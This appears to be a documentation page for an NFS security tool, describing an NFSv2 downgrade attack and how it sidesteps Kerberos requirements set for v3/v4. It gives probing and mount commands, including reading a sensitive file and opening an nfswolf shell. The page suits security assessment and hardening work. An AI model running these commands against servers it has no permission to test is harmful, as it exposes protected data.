

repository: StrongWind1/NFSWolf · page: security/identity/F-1.6-nfsv2-downgrade/index.html · generator: mkdocs · copyright: Copyright © 2025 - 2026 StrongWind1

# F-1.6: NFSv2 Protocol Downgrade Attack

## Classification

- **Severity**: High
- **CVSS Vector**: Network / Low Complexity / No Auth Required
- **Affected Versions**: Servers supporting NFSv2 alongside NFSv3/v4
- **Prerequisite**: Server still accepts NFSv2 connections (common on legacy systems)

## Summary

NFSv2 (RFC 1094) predates even the limited security mechanisms of NFSv3. It has no AUTH flavor negotiation, no READDIRPLUS, and many implementations process NFSv2 requests with even fewer access control checks than v3. By explicitly requesting version 2 during mount (`-o vers=2`), an attacker may bypass security features that only exist in v3+ while still accessing the same exported data.

## Technical detail

### Why NFSv2 is weaker

| Feature | NFSv2 | NFSv3 | Impact |
|---------|-------|-------|--------|
| Auth negotiation | None — just sends credential | Mountd returns supported flavors | No opportunity to enforce krb5 |
| File size limit | 32-bit (2GB) | 64-bit | Limits exfiltration volume only |
| READDIRPLUS | Not available | Returns handles + attrs | Less info per call, but still works |
| Write stability | Synchronous only | UNSTABLE/FILE_SYNC choice | Slower writes |
| Root squash | Implementation-dependent | Well-defined | Some v2 implementations don't squash |

### The downgrade attack

```bash
# Normal v3 mount may enforce sec=krb5:
mount -t nfs -o vers=3 target:/export /mnt
# Error: "permission denied" (server requires krb5 for v3)

# Force v2 — server may still accept AUTH_SYS:
mount -t nfs -o vers=2 target:/export /mnt
# Success! NFSv2 path doesn't check auth flavor requirements
```

### Why it works

Many NFS servers configure security on a per-version basis:
- `/etc/exports` security options (`sec=krb5`) may only apply to NFSv3/v4 mount requests
- The NFSv2 code path in the kernel may not consult the same security configuration
- Legacy compatibility keeps v2 enabled even when not intended

### Exploitation

```bash
# 1. Check if server supports v2
rpcinfo -p target | grep "100003.*2"
# or
nmap -sV -p 2049 target
# NFSv2 is often listed in the version string

# 2. Mount with explicit v2
mount -t nfs -o vers=2,nolock target:/export /mnt

# 3. Access files (may bypass v3 security settings)
ls -la /mnt/
cat /mnt/sensitive_file

# 4. With nfswolf:
nfswolf shell target:/export --nfs-version 2
```
